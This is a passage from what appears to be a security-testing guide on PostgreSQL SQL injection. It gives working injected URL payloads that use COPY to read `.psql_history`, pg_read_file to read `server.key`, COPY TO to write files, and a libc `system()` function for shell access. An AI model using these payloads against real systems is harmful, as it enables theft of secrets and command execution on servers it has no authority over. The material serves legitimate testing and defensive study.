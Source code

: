 #### Reading from a File

PostgreSQL provides two ways to access a local file:

-   `COPY` statement
-   `pg_read_file()` internal function (starting from PostgreSQL 8.1)

##### COPY

This operator copies data between a file and a table. The PostgreSQL engine accesses the local file system as the `postgres` user.

###### Example

```
/store.php?id=1; CREATE TABLE file_store(id serial, data text)--
/store.php?id=1; COPY file_store(data) FROM '/var/lib/postgresql/.psql_history'--
```

Data should be retrieved by performing a `UNION Query SQL Injection`:

-   retrieves the number of rows previously added in `file_store` with `COPY` statement
-   retrieves a row at a time with UNION SQL Injection

```
/store.php?id=1 UNION ALL SELECT NULL, NULL, max(id)::text FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 1;--
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 2;--
...
...
/store.php?id=1 UNION ALL SELECT data, NULL, NULL FROM file_store LIMIT 1 OFFSET 11;--
```

##### pg_read_file()

This function was introduced in `PostgreSQL 8.1` and allows one to read arbitrary files located inside DBMS data directory.

###### Example

`SELECT pg_read_file('server.key',0,1000);`

#### Writing to a File

By reverting the COPY statement, we can write to the local file system with the `postgres` user rights

`/store.php?id=1; COPY file_store(data) TO '/var/lib/postgresql/copy_output'--`

#### Shell Injection

PostgreSQL provides a mechanism to add custom functions by using both Dynamic Library and scripting languages such as python, perl, and tcl.

##### Dynamic Library

Until PostgreSQL 8.1, it was possible to add a custom function linked with `libc`:

`CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6', 'system' LANGUAGE 'C' STRICT`
